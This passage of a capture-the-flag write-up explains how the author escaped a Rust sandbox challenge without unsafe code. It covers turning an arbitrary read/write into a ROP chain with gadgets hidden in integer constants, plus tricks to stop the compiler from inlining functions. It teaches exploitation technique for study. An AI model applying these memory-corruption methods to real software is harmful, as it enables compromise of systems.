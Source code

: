 ## The easy-ish part
Assuming an arbitrary R/W in the form of two functions,
```rust
fn read(addr: usize) -> usize;
fn write(addr: usize, val: usize);
```
getting to `mov rax, 1337; syscall;` is simple - just overwrite the on-stack return address with a ROP chain. Although the right gadgets could (and probably do) appear in the binary, it's more convenient to force their existence by using them as immediates:
```rust
// mov rax, 0x1337; ret
// 0x48, 0xC7, 0xC0, 0x37, 0x13, 0x00, 0x00, 0xC3
let gadget1: usize = 0xc300001337c0c748;
// syscall;
// 0x0F, 0x05
let gadget2: usize = 0x050f;
// Use the gadgets in a side-effecting operation to prevent
// the compiler from optimizing them away. This is unnecessarily
// spammy - std::hint::black_box would be better, but is unstable.
println!("{:x} {:x}", gadget1, gadget2);
```
This will compile to, more or less, `mov rax, <gadget>;`, and since instructions are stored in RX pages, we can call the gadgets. Directly referencing an offset from the function name wasn't working[^4], so to find the gadgets, I loop and search through the code section using `read`. After the CTF, the author hinted that the following also works, with no searching:
```rust
pub fn gadget1() -> u64 { 0xc300001337c0c748 }
let gadget1_addr = (gadget1 as *const u64) as usize;
```
Knowing these, I should be able to overwrite the return address of `$crate::main` (i.e. the "real" one, not the top-level one that Rust binaries have), right? Well, I would **if it had one**. For reasons I will explain in the next section, it would stubbornly end with a `ud2` instruction, which causes `SIGILL`. At that point, I (incorrectly) assumed that Rust does something like `exit()` at the end of `$crate::main` instead of using `ret`, implying I had to create an inner, legit stack frame with a `ret` in the epilogue.

This required more work than simply defining a separate `fn`. You see, my code was compiled using `cargo build --release`, which translates to `rustc -C opt-level=3`. The Rust compiler inlines functions **aggressively**. Forcing it not to do that without using `#[inline(never)]` (remember, no `#`s) involves some of possibly the jankiest Rust you will ever see:
```rust
fn main() {
    let addr: usize = main as *const _ as usize;

    // noinline_fn is called several times,
    // so that inlining it would quadruple
    // the code size in this part. Because
    // noinline_fn is already large, rustc/LLVM
    // decides not to inline it.
    noinline_fn(addr);

    // The entire exploit is done by the time
    // noinline_fn returns, so these will never
    // be called.
    noinline_fn(addr);
    noinline_fn(addr);
    noinline_fn(addr);
}

const MSB_MASK: usize = 0xff00000000000000;

/// Not inlined!
pub fn noinline_fn(addr: usize) {
    /* Do the actual exploit here. */
```

[^1]: Actually the check for `"unsafe"` strings, present in the source, wasn't working on remote, but there is also a `#![forbid(unsafe_code)]` compiler directive in the template, so I couldn't use `unsafe`.
[^2]: After the CTF, it turned out that the intended solution was to use [#57893](https://github.com/rust-lang/rust/issues/57893). The flag lists [#31287](https://github.com/rust-lang/rust/issues/31287), but that's a typo - as I mentioned, it's been fixed by NLL.
[^3]: Up from 36th last year. By induction, in 2020 we'll be (-4)th.
[^4]: Turns out, `&main as *const _` and `main as *const u64` are not the same.